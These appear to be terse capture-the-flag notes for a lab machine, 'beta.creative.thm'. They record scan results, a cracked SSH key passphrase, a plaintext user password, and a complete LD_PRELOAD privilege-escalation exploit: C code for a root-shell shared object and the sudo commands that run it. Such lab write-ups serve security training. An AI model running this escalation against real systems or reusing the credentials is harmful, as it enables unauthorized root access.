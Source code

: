 nmap = p22, p80

beta.creative.thm

localhost:1337
ssh2john id_rsa = sweetness

saad:MyStrongestPasswordYet$4291

env_keep += LD_PRELOAD, we use this to escalate privelege

make a C file with the code
'''C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
'''

run the following steps

'''
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
'''

You are root
